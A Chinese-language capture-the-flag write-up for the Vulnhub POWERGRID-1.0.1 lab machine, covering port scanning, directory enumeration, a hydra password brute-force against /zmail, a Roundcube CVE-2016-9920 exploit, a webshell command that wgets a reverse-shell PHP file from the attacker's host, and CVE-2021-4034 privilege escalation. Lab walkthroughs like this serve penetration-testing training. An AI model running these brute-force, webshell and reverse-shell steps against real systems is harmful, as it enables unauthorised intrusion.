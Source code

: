 ```yaml
---

title: Vulnhub	485	POWERGRID-1.0.1
date: 2020-05-28
---
```

考点：hydra,CVE
槽点：靶机三小时关闭，导入虚拟机后应及时快照。因为字典增大，三个小时内根本无法爆破成功。

靶机链接：<https://www.vulnhub.com/entry/powergrid-101,485/>
<!--more-->
## 环境配置

| 名称            | IP        |
| --------------- | --------- |
| Kali Linux      | 10.0.2.15 |
| POWERGRID-1.0.1 | 10.0.2.28 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.28
$ sudo nmap -v -A -p- $rip
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: PowerGrid - Turning your lights off unless you pay.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
143/tcp open  imap     Dovecot imapd
|_imap-capabilities: STARTTLS listed IMAP4rev1 LOGINDISABLEDA0001 more have Pre-login post-login capabilities LITERAL+ LOGIN-REFERRALS OK ID ENABLE IDLE SASL-IR
| ssl-cert: Subject: commonName=powergrid
| Subject Alternative Name: DNS:powergrid
| Issuer: commonName=powergrid
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-19T16:49:55
| Not valid after:  2030-05-17T16:49:55
| MD5:   29a4 274f 71a8 9044 9910 0979 8540 ecab
|_SHA-1: 06a5 0056 cf2c 7f94 9aad 01e7 7e91 7006 4eb0 d553
|_ssl-date: TLS randomness does not represent time
993/tcp open  ssl/imap Dovecot imapd
|_imap-capabilities: AUTH=PLAINA0001 listed IMAP4rev1 have more Pre-login post-login capabilities LITERAL+ LOGIN-REFERRALS OK ID ENABLE IDLE SASL-IR
| ssl-cert: Subject: commonName=powergrid
| Subject Alternative Name: DNS:powergrid
| Issuer: commonName=powergrid
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-19T16:49:55
| Not valid after:  2030-05-17T16:49:55
| MD5:   29a4 274f 71a8 9044 9910 0979 8540 ecab
|_SHA-1: 06a5 0056 cf2c 7f94 9aad 01e7 7e91 7006 4eb0 d553
|_ssl-date: TLS randomness does not represent time
```

### WEB测试

```bash
$ gobuster dir --url http://10.0.2.28 -w /usr/share/wordlists/dirb/big.txt -x .php
===============================================================
/.htpasswd            (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.htpasswd.php        (Status: 403) [Size: 274]
/.htaccess.php        (Status: 403) [Size: 274]
/images               (Status: 301) [Size: 307] [--> http://10.0.2.28/images/]
/index.php            (Status: 200) [Size: 3644]                              
/server-status        (Status: 403) [Size: 274]                               
/zmail                (Status: 401) [Size: 456]                  
```

访问首页获得用户名三个，本地保存至文件`user`

![1](https://static.iihack.com/vulnhub/485/1.jpg)



访问zmail发现需要http认证

![2](https://static.iihack.com/vulnhub/485/2.jpg)

上hydra爆破

```bash
$ hydra -L user -P /usr/share/wordlists/rockyou.txt -f 10.0.2.28 http-get /zmail 
```

获得用户名密码

用户 `p48`

密码 `electrico`

### 漏洞发现

再次访问

![4](https://static.iihack.com/vulnhub/485/4.jpg)

登录成功

![5](https://static.iihack.com/vulnhub/485/5.jpg)



对照<https://github.com/t0kx/exploit-CVE-2016-9920> 进行利用

![6](https://static.iihack.com/vulnhub/485/6.jpg)

## 获得权限

获得webshell，下载反弹shell

http://10.0.2.28/zmail/backdoor.php?cmd=wget http://10.0.2.24/reverse/r444.php 

访问http://10.0.2.28/zmail/r444.php后获得反弹shell

![7](https://static.iihack.com/vulnhub/485/7.jpg)



## 提权

使用CVE-2021-4034提权

![8](https://static.iihack.com/vulnhub/485/8.jpg)

